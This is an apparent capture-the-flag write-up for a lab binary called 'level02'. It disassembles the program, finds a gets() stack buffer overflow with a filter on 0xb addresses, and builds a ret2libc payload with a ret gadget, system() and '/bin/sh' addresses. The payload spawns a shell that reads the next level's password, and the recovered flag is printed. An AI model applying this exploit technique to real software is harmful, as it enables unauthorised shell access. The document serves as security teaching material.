 # Write up

While executing the `level02` program, we have to write on the standard input.
Unlike the level01 program, the written string is printed on the standard output.

We download it, and dissassemble it like before, but with intel syntax for better understanding : `objdump -M intel -d bin2 > asm2_intel.txt`

The programm directly call a `p` function, which allocate first 104 bytes on the stack :
```
 80484d7:	83 ec 68             	sub    esp,0x68
```
The programm then call the fflush function, followed by the gets function :
```
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
```
The eax register address is here set 76 (4c in hex) bytes after the stack frame pointer (pointed by ebp) with the lea instruction, giving us a 76 bytes buffer size.

Then, the program move a 4 byte size value 4 bytes under the stack frame pointer and moves it 12 bytes over
```
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
```
A condition checks then if the 4 byte value (DWORD is a double word, 32 bits) stored in the eax register doesn't starts by 0xb.
```
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
```
We continue the translation (see the pseudo_code.c file),
then we try a payload using 80 dummy chars (76 + 4 bytes of offset) followed by 0xb0000000
```
printf "%80s%b" "" "\x00\x00\x00\xb0" | ./level2
(0xb0000000)
```
Which makes every address starting by 0xb at the offset 80 (ESP/saved EIP) escaped.

The program doesn't contain any function that opens a shell, we first thought we had so to inject a shellcode.
```
printf "%80s%b%b" "" "[shellcode stack address]" "[shellcode, eventually preceded by a nop (\x90) pool]"
```
We checked the saved eip address in order to get our shellcode address :
```
gdb ./level02
(gbb) break *0x80484d4
(gdb) run
(gdb) i r $esp
esp            0xbffff71c       0xbffff71c
``` 
However, we noticed that the stack addresses starts by 0xb, which are escaped, which prevents us to execute a shellcode here.
We decided so to try a ret2libc exploit.
The ret instruction also makes a pop eip which let us exploit the saved eip trick 4 bytes after.
We have a ret instruction here :
```
 804853e:	c3                   	ret    
```
To bypass the 0xb filter, we set the ret instruction address at offset 80, to make it do a second jump to offset 84, where there is no filter.
We have to find the system and the "/bin/sh" string addresses then, using gdb :
```
gdb ./level2
(gdb) break main
(gdb) run
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) find &system,+9999999,"/bin/sh"  
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```
Which let us building the following payload :
```
printf "%80s%b%b%s%b" "" "\x3e\x85\x04\x08" "\x60\xb0\xe6\xb7" "LIDL" "\x58\xcc\xf8\xb7"
```
We execute it, as before, coupling it with a stdin cat command :
```
(printf "%80s%b%b%s%b" "" "\x3e\x85\x04\x08" "\x60\xb0\xe6\xb7" "LIDL" "\x58\xcc\xf8\xb7"; cat) | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
Which gives us the flag.

## Sources

https://www.cs.virginia.edu/~evans/cs216/guides/x86.html
https://beta.hackndo.com/buffer-overflow/
https://beta.hackndo.com/retour-a-la-libc/
https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue
https://c9x.me/x86/html/file_module_x86_id_280.html
